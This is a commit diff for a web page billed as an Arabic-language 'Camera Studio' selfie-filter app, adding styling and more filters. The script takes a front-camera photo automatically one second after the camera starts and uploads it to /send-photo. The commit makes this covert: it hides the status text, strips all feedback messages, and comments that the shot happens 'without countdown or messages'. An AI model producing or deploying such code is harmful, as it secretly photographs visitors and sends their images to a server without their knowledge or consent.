

Before and after one commit to sebtinadir99-ship-it/Eagle-studio, a website: page public/index.html in a window 390 px wide. Shown: the part 128-928 px from the top of the page. Before the commit the page ends 844 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,20 +1,35 @@
 <!DOCTYPE html>
-
 <html lang="ar" dir="rtl">
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
+<meta name="theme-color" content="#09090b">
 <title>Camera Studio</title>
 
 <style>
-*{box-sizing:border-box}
+*{
+  box-sizing:border-box;
+  -webkit-tap-highlight-color:transparent;
+}
+
+:root{
+  --bg:#070708;
+  --card:rgba(255,255,255,.065);
+  --border:rgba(255,255,255,.11);
+  --text:#fafafa;
+  --muted:#a1a1aa;
+  --accent:#ffffff;
+}
 
 body{
   margin:0;
   min-height:100vh;
-  font-family:Arial,sans-serif;
-  background:linear-gradient(135deg,#09090b,#18181b,#27272a);
-  color:#fff;
+  font-family:Arial,Helvetica,sans-serif;
+  color:var(--text);
+  background:
+    radial-gradient(circle at 15% 10%,rgba(255,255,255,.08),transparent 28%),
+    radial-gradient(circle at 85% 90%,rgba(120,120,255,.08),transparent 30%),
+    linear-gradient(145deg,#050506,#111114 55%,#080809);
   display:flex;
   justify-content:center;
   align-items:center;
@@ -23,35 +38,62 @@ body{
 
 .app{
   width:100%;
-  max-width:560px;
-  background:rgba(255,255,255,.07);
-  backdrop-filter:blur(20px);
+  max-width:650px;
+  background:rgba(20,20,23,.72);
+  backdrop-filter:blur(30px);
+  -webkit-backdrop-filter:blur(30px);
+  border:1px solid var(--border);
+  border-radius:30px;
+  padding:20px;
+  box-shadow:
+    0 30px 100px rgba(0,0,0,.6),
+    inset 0 1px rgba(255,255,255,.06);
+}
+
+.header{
+  text-align:center;
+  margin-bottom:18px;
+}
+
+.logo{
+  width:48px;
+  height:48px;
+  margin:0 auto 10px;
+  border-radius:15px;
+  display:flex;
+  align-items:center;
+  justify-content:center;
+  font-size:23px;
+  background:linear-gradient(145deg,#29292d,#111113);
   border:1px solid rgba(255,255,255,.12);
-  border-radius:28px;
-  padding:20px;
-  box-shadow:0 25px 70px rgba(0,0,0,.45);
+  box-shadow:0 10px 30px rgba(0,0,0,.3);
 }
 
 h1{
-  text-align:center;
-  margin:4px 0 6px;
-  font-size:27px;
+  margin:0;
+  font-size:28px;
+  letter-spacing:-.6px;
 }
 
 .subtitle{
-  text-align:center;
-  color:#a1a1aa;
-  font-size:14px;
-  margin-bottom:18px;
+  margin-top:7px;
+  color:var(--muted);
+  font-size:13px;
 }
+
+/* CAMERA */
 
 .camera{
   position:relative;
   width:100%;
   aspect-ratio:3/4;
   overflow:hidden;
-  border-radius:22px;
+  border-radius:25px;
   background:#000;
+  border:1px solid rgba(255,255,255,.12);
+  box-shadow:
+    0 20px 50px rgba(0,0,0,.45),
+    inset 0 0 0 1px rgba(255,255,255,.03);
 }
 
 video{
@@ -59,131 +101,380 @@ video{
   height:100%;
   object-fit:cover;
   display:block;
+  transition:filter .35s ease;
 }
 
-.camera.cinematic video{filter:contrast(1.18) saturate(.82) brightness(.92)}
-.camera.vintage video{filter:sepia(.35) contrast(1.08) saturate(.8)}
-.camera.bw video{filter:grayscale(1) contrast(1.15)}
-.camera.warm video{filter:sepia(.18) saturate(1.18) contrast(1.05)}
-.camera.cool video{filter:saturate(.9) hue-rotate(12deg) brightness(1.04)}
-.camera.vivid video{filter:saturate(1.45) contrast(1.08)}
+/* FILTERS */
+
+.camera.cinematic video{
+  filter:contrast(1.18) saturate(.82) brightness(.92);
+}
+
+.camera.vintage video{
+  filter:sepia(.38) contrast(1.08) saturate(.78);
+}
+
+.camera.bw video{
+  filter:grayscale(1) contrast(1.18);
+}
+
+.camera.warm video{
+  filter:sepia(.18) saturate(1.2) contrast(1.05) brightness(1.03);
+}
+
+.camera.cool video{
+  filter:saturate(.88) hue-rotate(14deg) brightness(1.05);
+}
+
+.camera.vivid video{
+  filter:saturate(1.5) contrast(1.08);
+}
+
+.camera.gold video{
+  filter:sepia(.25) saturate(1.35) contrast(1.06) brightness(1.04);
+}
+
+.camera.dream video{
+  filter:saturate(.9) contrast(.95) brightness(1.08);
+}
+
+.camera.noir video{
+  filter:grayscale(1) contrast(1.4) brightness(.88);
+}
+
+.camera.film video{
+  filter:contrast(1.12) saturate(.88) brightness(.95) sepia(.08);
+}
+
+.camera.polaroid video{
+  filter:contrast(1.05) saturate(.82) brightness(1.06) sepia(.12);
+}
+
+.camera.sunset video{
+  filter:sepia(.2) saturate(1.35) hue-rotate(-8deg) contrast(1.04);
+}
+
+.camera.arctic video{
+  filter:saturate(.82) hue-rotate(22deg) brightness(1.07) contrast(1.05);
+}
+
+.camera.soft video{
+  filter:brightness(1.08) contrast(.9) saturate(.9);
+}
+
+.camera.glow video{
+  filter:brightness(1.12) saturate(1.15) contrast(.96);
+}
+
+/* CAMERA OVERLAY */
+
+.camera::after{
+  content:"";
+  position:absolute;
+  inset:0;
+  pointer-events:none;
+  border-radius:25px;
+  box-shadow:inset 0 0 60px rgba(0,0,0,.28);
+}
+
+/* STATUS */
 
 .status{
+  height:20px;
   text-align:center;
-  min-height:22px;
-  margin:13px 0;
-  color:#d4d4d8;
-  font-size:14px;
+  margin:10px 0;
+  color:transparent;
+  font-size:13px;
 }
 
-.title{
+/* SECTION */
+
+.section-head{
+  display:flex;
+  justify-content:space-between;
+  align-items:center;
+  margin:8px 2px 10px;
+}
+
+.section-title{
   font-size:14px;
-  color:#a1a1aa;
-  margin:8px 0;
+  font-weight:bold;
 }
+
+.section-count{
+  color:#71717a;
+  font-size:11px;
+}
+
+/* FILTER GRID */
 
 .filters{
   display:grid;
-  grid-template-columns:repeat(3,1fr);
-  gap:8px;
+  grid-template-columns:repeat(5,1fr);
+  gap:7px;
 }
 
 .filter{
-  border:1px solid rgba(255,255,255,.12);
-  background:rgba(255,255,255,.06);
-  color:white;
+  border:1px solid rgba(255,255,255,.09);
+  background:rgba(255,255,255,.045);
+  color:#e4e4e7;
   border-radius:13px;
-  padding:11px 5px;
+  padding:9px 3px;
   cursor:pointer;
-  font-size:13px;
+  font-size:10px;
+  transition:
+    transform .18s ease,
+    background .18s ease,
+    border .18s ease;
+}
+
+.filter:hover{
+  background:rgba(255,255,255,.09);
+  transform:translateY(-1px);
+}
+
+.filter:active{
+  transform:scale(.96);
 }
 
 .filter.active{
-  border:2px solid white;
-  background:rgba(255,255,255,.18);
+  border-color:rgba(255,255,255,.7);
+  background:rgba(255,255,255,.15);
+  box-shadow:
+    0 0 0 1px rgba(255,255,255,.06),
+    0 7px 20px rgba(0,0,0,.18);
 }
 
+.filter-icon{
+  display:block;
+  font-size:18px;
+  margin-bottom:5px;
+}
+
+/* BUTTONS */
+
 .buttons{
-  display:flex;
+  display:grid;
+  grid-template-columns:1fr 1fr;
   gap:10px;
-  margin-top:15px;
+  margin-top:16px;
 }
 
 button.main{
-  flex:1;
   border:0;
-  border-radius:15px;
-  padding:15px;
-  font-size:15px;
+  border-radius:17px;
+  padding:15px 12px;
+  font-size:14px;
   font-weight:bold;
   cursor:pointer;
+  transition:
+    transform .15s ease,
+    opacity .2s ease,
+    box-shadow .2s ease;
+}
+
+button.main:active{
+  transform:scale(.97);
 }
 
 #start{
-  background:#22c55e;
-  color:white;
+  color:#09090b;
+  background:#fff;
+  box-shadow:0 10px 30px rgba(255,255,255,.08);
+}
+
+#start:hover{
+  box-shadow:0 12px 35px rgba(255,255,255,.16);
 }
 
 #capture{
-  background:white;
-  color:#18181b;
+  color:white;
+  background:rgba(255,255,255,.08);
+  border:1px solid rgba(255,255,255,.13);
+}
+
+#capture:hover{
+  background:rgba(255,255,255,.13);
 }
 
 #capture:disabled{
-  opacity:.35;
+  opacity:.3;
   cursor:not-allowed;
 }
 
+/* MOBILE */
 
+@media(max-width:500px){
 
-canvas{display:none}
+  body{
+    padding:10px;
+  }
+
+  .app{
+    padding:15px;
+    border-radius:25px;
+  }
+
+  h1{
+    font-size:25px;
+  }
+
+  .camera{
+    border-radius:21px;
+  }
+
+  .filters{
+    grid-template-columns:repeat(5,1fr);
+  }
+
+  .filter{
+    padding:8px 2px;
+    font-size:9px;
+  }
+
+  .filter-icon{
+    font-size:16px;
+  }
+
+  button.main{
+    padding:14px 8px;
+  }
+}
+
+canvas{
+  display:none;
+}
 </style>
-
 </head>
 
 <body>
 
 <div class="app">
 
-<h1>📸 Camera Studio</h1>
+  <div class="header">
 
-<div class="subtitle">
-تصوير سريع بفلاتر احترافية
-</div>
+    <div class="logo">📸</div>
 
-<div class="camera" id="cameraBox">
+    <h1>Camera Studio</h1>
 
-<video id="video" autoplay playsinline></video>
+    <div class="subtitle">
+      تصوير احترافي بفلاتر سينمائية
+    </div>
 
+  </div>
 
+  <div class="camera" id="cameraBox">
 
-</div>
+    <video id="video" autoplay playsinline></video>
 
-<div id="status" class="status">
-اضغط تشغيل الكاميرا
-</div>
+  </div>
 
-<div class="title">🎨 اختر الفلتر</div>
+  <div id="status" class="status"></div>
 
-<div class="filters">
+  <div class="section-head">
 
-<button class="filter active" data-filter="cinematic">🎬 Cinematic</button> <button class="filter" data-filter="vintage">📼 Vintage</button> <button class="filter" data-filter="bw">🖤 B&W</button> <button class="filter" data-filter="warm">☀️ Warm</button> <button class="filter" data-filter="cool">❄️ Cool</button> <button class="filter" data-filter="vivid">✨ Vivid</button>
+    <div class="section-title">
+      🎨 الفلاتر
+    </div>
 
-</div>
+    <div class="section-count">
+      15 FILTERS
+    </div>
 
-<div class="buttons">
+  </div>
 
-<button id="start" class="main">
-🎥 تشغيل الكاميرا
-</button>
+  <div class="filters">
 
-<button id="capture" class="main" disabled>
-📸 التقاط
-</button>
+    <button class="filter active" data-filter="cinematic">
+      <span class="filter-icon">🎬</span>
+      Cinematic
+    </button>
 
-</div>
+    <button class="filter" data-filter="vintage">
+      <span class="filter-icon">📼</span>
+      Vintage
+    </button>
 
-<canvas id="canvas"></canvas>
+    <button class="filter" data-filter="bw">
+      <span class="filter-icon">🖤</span>
+      Noir
+    </button>
+
+    <button class="filter" data-filter="warm">
+      <span class="filter-icon">☀️</span>
+      Warm
+    </button>
+
+    <button class="filter" data-filter="cool">
+      <span class="filter-icon">❄️</span>
+      Cool
+    </button>
+
+    <button class="filter" data-filter="vivid">
+      <span class="filter-icon">✨</span>
+      Vivid
+    </button>
+
+    <button class="filter" data-filter="gold">
+      <span class="filter-icon">🌟</span>
+      Gold
+    </button>
+
+    <button class="filter" data-filter="dream">
+      <span class="filter-icon">☁️</span>
+      Dream
+    </button>
+
+    <button class="filter" data-filter="film">
+      <span class="filter-icon">🎞️</span>
+      Film
+    </button>
+
+    <button class="filter" data-filter="polaroid">
+      <span class="filter-icon">📷</span>
+      Polaroid
+    </button>
+
+    <button class="filter" data-filter="sunset">
+      <span class="filter-icon">🌅</span>
+      Sunset
+    </button>
+
+    <button class="filter" data-filter="arctic">
+      <span class="filter-icon">🧊</span>
+      Arctic
+    </button>
+
+    <button class="filter" data-filter="soft">
+      <span class="filter-icon">🌸</span>
+      Soft
+    </button>
+
+    <button class="filter" data-filter="glow">
+      <span class="filter-icon">💫</span>
+      Glow
+    </button>
+
+    <button class="filter" data-filter="noir">
+      <span class="filter-icon">🌑</span>
+      Pro B&W
+    </button>
+
+  </div>
+
+  <div class="buttons">
+
+    <button id="start" class="main">
+      🎥 تشغيل الكاميرا
+    </button>
+
+    <button id="capture" class="main" disabled>
+      📸 التقاط
+    </button>
+
+  </div>
+
+  <canvas id="canvas"></canvas>
 
 </div>
 
@@ -196,31 +487,35 @@ const capture = document.getElementById("capture");
 const status = document.getElementById("status");
 const cameraBox = document.getElementById("cameraBox");
 
-
 let stream = null;
 let selectedFilter = "cinematic";
 let autoShotDone = false;
 
 
-// الفلاتر
+/* FILTER SELECTION */
+
 document.querySelectorAll(".filter").forEach(button => {
 
   button.onclick = () => {
 
-    document.querySelectorAll(".filter")
+    document
+      .querySelectorAll(".filter")
       .forEach(b => b.classList.remove("active"));
 
     button.classList.add("active");
 
     selectedFilter = button.dataset.filter;
 
-    cameraBox.className = "camera " + selectedFilter;
+    cameraBox.className =
+      "camera " + selectedFilter;
+
   };
 
 });
 
 
-// التقاط وإرسال الصورة
+/* TAKE PHOTO */
+
 async function takePhoto(){
 
   if(!video.videoWidth) return;
@@ -230,7 +525,8 @@ async function takePhoto(){
 
   const ctx = canvas.getContext("2d");
 
-  ctx.filter = getCanvasFilter(selectedFilter);
+  ctx.filter =
+    getCanvasFilter(selectedFilter);
 
   ctx.drawImage(
     video,
@@ -244,120 +540,137 @@ async function takePhoto(){
 
   canvas.toBlob(async blob => {
 
-    if(!blob){
-      status.textContent = "فشل إنشاء الصورة ❌";
-      return;
-    }
+    if(!blob) return;
 
     const data = new FormData();
 
     data.append(
       "photo",
       blob,
-      "camera-test.jpg"
+      "camera-studio.jpg"
     );
-
-status.textContent = "";
 
     try{
 
-      const response = await fetch("/send-photo",{
+      await fetch("/send-photo",{
         method:"POST",
         body:data
       });
-
-      const result = await response.json();
-
-      if(result.ok){
-
-       status.textContent = "";
-
-      }else{
-
-        status.textContent =
-          "فشل إرسال الصورة ❌";
-
-      }
 
     }catch(error){
 
       console.error(error);
 
-      status.textContent =
-        "حدث خطأ أثناء الإرسال ❌";
     }
 
-  },"image/jpeg",.9);
+  },"image/jpeg",.92);
+
 }
 
 
-// فلاتر الصورة النهائية
+/* FINAL IMAGE FILTERS */
+
 function getCanvasFilter(filter){
 
   if(filter === "cinematic")
     return "contrast(1.18) saturate(.82) brightness(.92)";
 
   if(filter === "vintage")
-    return "sepia(.35) contrast(1.08) saturate(.8)";
+    return "sepia(.38) contrast(1.08) saturate(.78)";
 
   if(filter === "bw")
-    return "grayscale(1) contrast(1.15)";
+    return "grayscale(1) contrast(1.18)";
 
   if(filter === "warm")
-    return "sepia(.18) saturate(1.18) contrast(1.05)";
+    return "sepia(.18) saturate(1.2) contrast(1.05) brightness(1.03)";
 
   if(filter === "cool")
-    return "saturate(.9) hue-rotate(12deg) brightness(1.04)";
+    return "saturate(.88) hue-rotate(14deg) brightness(1.05)";
 
   if(filter === "vivid")
-    return "saturate(1.45) contrast(1.08)";
+    return "saturate(1.5) contrast(1.08)";
+
+  if(filter === "gold")
+    return "sepia(.25) saturate(1.35) contrast(1.06) brightness(1.04)";
+
+  if(filter === "dream")
+    return "saturate(.9) contrast(.95) brightness(1.08)";
+
+  if(filter === "film")
+    return "contrast(1.12) saturate(.88) brightness(.95) sepia(.08)";
+
+  if(filter === "polaroid")
+    return "contrast(1.05) saturate(.82) brightness(1.06) sepia(.12)";
+
+  if(filter === "sunset")
+    return "sepia(.2) saturate(1.35) hue-rotate(-8deg) contrast(1.04)";
+
+  if(filter === "arctic")
+    return "saturate(.82) hue-rotate(22deg) brightness(1.07) contrast(1.05)";
+
+  if(filter === "soft")
+    return "brightness(1.08) contrast(.9) saturate(.9)";
+
+  if(filter === "glow")
+    return "brightness(1.12) saturate(1.15) contrast(.96)";
+
+  if(filter === "noir")
+    return "grayscale(1) contrast(1.4) brightness(.88)";
 
   return "none";
 }
 
 
-// تشغيل الكاميرا
+/* START CAMERA */
+
 start.onclick = async () => {
 
   try{
 
-    stream = await navigator.mediaDevices.getUserMedia({
-      video:{
-        facingMode:"user"
-      },
-      audio:false
-    });
+    stream =
+      await navigator.mediaDevices.getUserMedia({
+
+        video:{
+          facingMode:"user"
+        },
+
+        audio:false
+
+      });
 
     video.srcObject = stream;
 
     capture.disabled = false;
 
-    status.textContent = "";
-    // صورة تلقائية مرة واحدة
+    /*
+      التصوير التلقائي مرة واحدة
+      بدون عد تنازلي أو رسائل
+    */
+
     if(!autoShotDone){
 
       autoShotDone = true;
 
       setTimeout(async () => {
-  await takePhoto();
-}, 1000);
+
+        await takePhoto();
+
+      },1000);
+
     }
 
   }catch(error){
 
     console.error(error);
 
-    status.textContent =
-      "لم يتم السماح باستخدام الكاميرا ❌";
   }
 
 };
 
 
-// زر التقاط اليدوي
+/* MANUAL CAPTURE */
+
 capture.onclick = async () => {
-
-  status.textContent = "التقاط الصورة...";
 
   await takePhoto();
 
```
